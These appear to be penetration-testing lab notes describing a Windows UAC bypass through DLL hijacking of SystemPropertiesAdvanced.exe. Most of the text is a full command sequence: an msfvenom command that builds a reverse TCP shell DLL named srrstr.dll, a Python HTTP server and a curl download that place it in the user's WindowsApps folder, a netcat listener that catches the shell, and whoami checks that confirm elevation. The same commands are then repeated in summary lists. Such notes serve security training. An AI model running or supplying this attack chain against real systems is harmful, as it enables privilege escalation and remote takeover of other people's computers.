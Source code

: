 ### whoami command to check current user information
```powershell
whoami /user
```

### List members of the administrators group
```powershell
net localgroup administrators
```

### Display the privileges of the current user
```powershell
whoami /priv
```

### Query registry to check if UAC is enabled
```powershell
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
```

### Query registry for administrator consent prompt behavior
```powershell
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin
```

### Get the OS version using PowerShell
```powershell
[environment]::OSVersion.Version
```

### Print the PATH environment variable
```powershell
cmd /c echo %PATH%
```

### List tasks and filter for rundll32 processes
```powershell
# Useful to identify suspicious rundll32 usage
tasklist /svc | findstr "rundll32"
```

### Kill a process by specifying its PID
```powershell
# Replace <pid> with the actual process ID
taskkill /PID <pid> /F
```

### Generate a reverse TCP shell DLL using msfvenom
```powershell
# Replace <attacker_ip> and <attacker_port> with actual values
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker_ip> LPORT=<attacker_port> -f dll > srrstr.dll
```

### Start a Python HTTP server to host the DLL payload
```powershell
python3 -m http.server <port>
```

### Download the DLL file from the attacker's server using curl
```powershell
curl http://<attacker_ip>:<port>/srrstr.dll -O "C:\\Users\\<user>\\AppData\\Local\\Microsoft\\WindowsApps\\srrstr.dll"
```

### Set up Netcat listener to capture the reverse shell
```powershell
nc -lvnp <attacker_port>
```

### Execute the DLL payload using rundll32
```powershell
rundll32 shell32.dll,Control_RunDLL C:\\Users\\<user>\\AppData\\Local\\Microsoft\\WindowsApps\\srrstr.dll
```

### Open advanced system properties dialog
```powershell
C:\\Windows\\SysWOW64\\SystemPropertiesAdvanced.exe
```

### Confirm the current user after potential privilege escalation
```powershell
whoami
```


## **Key Concepts:**

- **UAC Functionality:**
    - UAC prompts for elevation when applications require administrator privileges.
    - It separates standard user and administrator tokens.
    - It is a security convenience, not a security boundary.
- **UAC Bypass:**
    - Leveraging vulnerabilities or unintended behavior in Windows binaries.
    - DLL hijacking is a common technique.
    - SystemPropertiesAdvanced.exe is a auto elevating binary.
- **DLL Hijacking:**
    - Placing a malicious DLL in a directory where a trusted binary searches for it.
    - Windows DLL search order is critical.

**Approach, Commands, Tools, and Techniques:**

1. **UAC and User Information Gathering:**
    
    - `whoami /user` (Check current user).
    - `net localgroup administrators` (Verify admin group membership).
    - `whoami /priv` (Review user privileges).
    - `REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA` (Check if UAC is enabled).
    - `REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin` (Check UAC level).
    - `[environment]::OSVersion.Version` (PowerShell: Check Windows version).
    - `cmd /c echo %PATH%` (Review PATH environment variable).
    - `tasklist /svc | findstr "rundll32"` (List running rundll32 processes).
    - `taskkill /PID <pid> /F` (Kill rundll32 processes).
2. **Malicious DLL Generation and Transfer:**
    
    - `msfvenom -p windows/shell_reverse_tcp LHOST=<attacker_ip> LPORT=<attacker_port> -f dll > srrstr.dll` (Generate malicious DLL).
    - `python3 -m http.server <port>` (Start HTTP server).
    - `curl http://<attacker_ip>:<port>/srrstr.dll -O "C:\Users\<user>\AppData\Local\Microsoft\WindowsApps\srrstr.dll"` (Download DLL).
3. **Listener Setup:**
    
    - `nc -lvnp <attacker_port>` (Start Netcat listener).
4. **Testing and Exploitation:**
    
    - `rundll32 shell32.dll,Control_RunDLL C:\Users\<user>\AppData\Local\Microsoft\WindowsApps\srrstr.dll` (Test DLL execution).
    - `C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe` (Execute vulnerable binary).
5. **Verification:**
    
    - `whoami` (Verify elevated privileges).
    - `whoami /priv` (Verify elevated privileges).

**Commands:**

- `whoami`
- `net localgroup administrators`
- `REG QUERY`
- `cmd /c echo %PATH%`
- `tasklist`
- `taskkill`
- `msfvenom`
- `python3 -m http.server`
- `curl`
- `nc`
- `rundll32`

**Tools:**

- `msfvenom` (Metasploit)
- `nc` (Netcat)

**Techniques:**

- UAC bypass.
- DLL hijacking.
- Exploiting auto-elevating binaries.

**Key Considerations:**

- Windows version and build number are critical for UAC bypass selection.
- DLL search order.
- Attacker controlled IP addresses and Ports.
- Process cleanup.